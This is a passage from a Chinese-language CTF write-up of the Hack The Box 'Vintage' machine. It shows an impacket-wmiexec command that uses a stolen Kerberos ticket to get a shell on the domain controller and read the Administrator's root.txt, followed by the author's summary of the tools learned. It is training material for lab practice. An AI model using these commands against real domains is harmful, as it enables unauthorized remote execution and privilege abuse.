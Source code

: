 现在有了L.BIANCHI的票据了，可以直接通过wmiexec执行命令

```
└─# impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\> whoami
vintage\l.bianchi_adm
C:\> type Users\Administrator\Desktop\root.txt
```

## Summary

由于Kerberos的认证机制对时区和系统时间验证非常严格，在操作的过程中，比如BloodyAD或者impacket的相关脚本使用时，如果没有用ntupdate同步时间，会导致命令失败。我也是十分艰难的在进行复现。

本文也是根据别人的WP进行复现，学习到了很多新的工具以及思路：Bloodhound、bloodyAD、ldap信息枚举以及Impacket系列的Kerberos相关的操作。

总的来说理解还是非常浅显，我自己肯定是打不了的，只能通过复现来学习学习思路。

I HATE WINDOWS!!!

